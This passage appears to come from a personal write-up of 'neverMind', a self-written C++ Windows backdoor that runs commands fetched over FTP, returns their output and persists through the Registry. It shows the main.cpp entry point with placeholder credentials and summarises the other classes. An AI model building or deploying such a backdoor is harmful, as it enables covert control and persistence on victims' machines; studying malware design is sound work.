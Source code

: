 the `main.cpp` file creates an instance `M` of the `neverMind` class and starts the backdoor. it's the entry point of the application, and it contains the `wWinMain` function, which is the entry point in a Windows application linked with the `UNICODE` character set. the `host`, `username`, and `password` are the credentials of the FTP server. the `neverMind` object `M` is created and the backdoor is started by calling `M.start()`.

```cpp
int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR szCmdLine, int CmdShow)
{
    const std::string host = "host";
    const std::string username = "username";
    const std::string password = "password";

    neverMind M(host, username, password);
    M.start();

    return 0;
}
```

- `HINSTANCE hInstance`: a handle to the current instance of the application.

- `HINSTANCE hPrevInstance`: a handle to the previous instance of the application. this parameter is always NULL in modern Windows applications.

- `PWSTR szCmdLine`: a pointer to a null-terminated string specifying the command line for the application, excluding the program name.

- `int CmdShow`: controls how the window is to be shown. this parameter can be one of the following values: `SW_HIDE`, `SW_MAXIMIZE`, `SW_MINIMIZE`, `SW_RESTORE`, `SW_SHOW`, `SW_SHOWDEFAULT`, `SW_SHOWMAXIMIZED`, `SW_SHOWMINIMIZED`, `SW_SHOWMINNOACTIVE`, `SW_SHOWNA`, `SW_SHOWNOACTIVATE`, `SW_SHOWNORMAL`.


## conclusion

`neverMind` is a demonstration (ahem) of a backdoor application that uses FTP for C2 (command + control) operations. it's written in C++ and uses the Windows API and WinINet API for network operations. the program has 3 main components: the `ftpC` class, the `neverMind` class, and the `main.cpp` file.

`ftpC` provides a set of functions for FTP operations, including connecting to an FTP server, uploading/downloading files, and creating/switching directories. it uses the WinINet API, which is a high-level API for working with FTP, HTTP, and Gopher protocols.

`neverMind` uses the `ftpC` class to connect to the FTP server and perform file operations. it contains methods for setting up and starting the backdoor, compiling + executing commands from a file, and adding the backdoor to the Windows Registry for persistence. 

`main.cpp` is the entry point of the app. it creates an instance of the `neverMind` class with the FTP server credentials and starts the backdoor.

i wrote this program to better learn and understand how backdoors work and how they can use FTP for C2 operations. as a result, i learned how to use the Windows and WinINet APIs, how to work with the Windows Registry for persistence, and how to execute system commands and capture their output.
